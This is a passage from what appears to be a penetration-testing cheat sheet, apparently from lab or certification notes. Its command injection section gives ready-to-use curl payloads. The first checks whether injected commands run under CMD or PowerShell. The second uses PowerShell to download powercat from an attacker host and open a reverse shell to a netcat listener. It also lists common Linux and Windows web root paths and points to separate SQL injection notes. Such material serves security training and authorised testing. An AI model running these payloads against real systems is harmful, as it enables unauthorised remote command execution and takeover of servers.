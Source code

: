 If there's any part of the website that intakes commands, see if you can add your own. They're likely filtered, though you may be able to get around this by closing off the command with a semicolon. In the following example, we saw (with Burp) that the commands were being sent through the Archive header with a Post:

```bash
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive # to find out if the commands are executed by CMD or Powershell
```

Given that it's Powershell:

```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
nc -lvnp 4444
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```

#### Web Roots

Linux.

```bash
/var/www/html/
/var/www/
/var/www/app/
/var/www/sites/
/var/www/public/
/var/www/public_html/
/var/www/html/default/
/srv/www/
/srv/www/html/
/srv/www/sites/
/home/www/
/home/httpd/
/home/$USER/public_html/
/home/$USER/www/
/home/$USER/app/
/home/$USER/$application_name/
/var/www/$application_name/
```

Windows.

```bash
c:\inetpub\wwwroot\
c:\xampp\htdocs\
c:\wamp\www
```

#### SQL Injection

- Refer to ./sqli.md. Try the authentication bypass fuzzing.
